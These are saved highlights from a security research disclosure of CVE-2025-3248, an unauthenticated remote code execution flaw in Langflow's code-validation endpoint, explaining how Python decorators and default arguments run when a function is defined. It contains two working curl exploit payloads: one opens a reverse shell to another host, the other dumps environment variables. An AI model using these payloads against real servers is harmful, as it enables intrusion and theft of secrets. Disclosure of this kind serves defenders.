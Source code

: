 ```yaml
---
author: Naveen Sunkavally
aliases:
  - "Unsafe at Any Speed: Abusing Python Exec for Unauth RCE in Langflow AI"
tags:
  - readwise/articles
url: https://www.horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/?__readwiseLocation=
date: 2025-04-24
summary: A serious security flaw, CVE-2025-3248, was found in Langflow, a tool for creating AI workflows. This vulnerability allows remote attackers to take complete control of Langflow servers without authentication. Users are advised to upgrade to version 1.3.0, which fixes the issue.
---
```

# Unsafe at Any Speed: Abusing Python Exec for Unauth RCE in Langflow AI

## A Bad Code Smell

Within a few minutes of looking at the source code, we identified something fishy – [an unauthenticated API endpoint](https://github.com/langflow-ai/langflow/blob/1.2.0/src/backend/base/langflow/api/v1/validate.py) `/api/v1/validate/code` running [Python](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Python.md) `exec` on untrusted user input. [](https://read.readwise.io/read/01jrwrbeyfa1xyvy8ve1xpms4m)

The code uses the `ast` module to parse user input and extracts any `ast.Import` and `ast.FunctionDef` nodes, i.e. any Python `import` statements and function definitions.

Imports are validated using `importlib.import_module`. This can’t be directly exploited unless an attacker can first upload an arbitrary Python file onto the file system within Python’s module search path. We didn’t find a way to do this.

Function definitions are validated using `compile` and `exec`. 

> [!note]
> A *function definition* is **not** the same as a *function* though. 

Executing a function definition only makes the function available for execution *within* the current Python *namespace*; it doesn’t actually execute the function code. We tried polluting the current namespace by overwriting existing global and local function names but weren’t successful. [](https://read.readwise.io/read/01jrwrbyec45fe3n3r5bxfvnah)


## Diving into Python Decorators

What exactly is an `ast.FunctionDef`? In Python, function definitions also include the decorators attached to the function. [](https://read.readwise.io/read/01jrwrcm0zt7fr5b94nstcc418)

**Decorators** are *functions that return functions that wrap other functions*. In Python web apps, they’re commonly used to implement authentication/authorization controls, such as `@login_required`. [](https://read.readwise.io/read/01jrwrdpspw0k423byv293ktde)

But *decorators don’t have to be functions or return functions*. Decorators are actually modeled as *expressions* – arbitrary Python code statements. [](https://read.readwise.io/read/01jrwrgq0tp0vdgtkvmj4ga0ct)

Let’s say you have a file called `foomodule.py` with the following code:
```python
@__import__("os").system("echo Inside foo decorator")
def foo():
print("Inside foo function")
```

And in the same directory another file `main.py` with just the following line: [](https://read.readwise.io/read/01jrwrh7c4t8xnc6nscsm6y8qx)
`import foomodule` 

The import of `foomodule` in `main.py` **executes** the function definition of `foo`, which executes the decorator. [](https://read.readwise.io/read/01jrwrhp61bybqe8nqr8k8gv8b)



## Abusing Decorators for Remote Code Execution

Remote code execution is easy now – just **stick the payload into a decorator**. [](https://read.readwise.io/read/01jrwrjb3d1eh0s0ttvh3yzpdn)

```bash
curl -X POST -H 'Content-Type: application/json' http://10.0.220.200:8000/api/v1/validate/code -d '{"code": "@exec(\"import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"10.0.220.201\\\",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\\"/bin/sh\\\")\")\ndef foo():\n pass"}'
```
[](https://read.readwise.io/read/01jrwrjphrwt61jgkd8ceq5ckm)

## Another Path to RCE: Python Default Arguments

After the CVE was published, [another researcher published a POC](https://x.com/_r00tuser/status/1909858365234463122) that abused another feature of Python functions: **default arguments**. These are also modeled as expressions in Python and get executed when a function is defined. [](https://read.readwise.io/read/01jrwrmyxt1cwt7mj3ac7rak60)

```bash
curl -H 'Content-Type: application/json' http://10.0.220.200:8000/api/v1/validate/code -d '{"code":"def foo(cmd=exec(\"raise Exception(__import__(\\\"subprocess\\\").check_output(\\\"env\\\"))\")):\n pass"}'
```


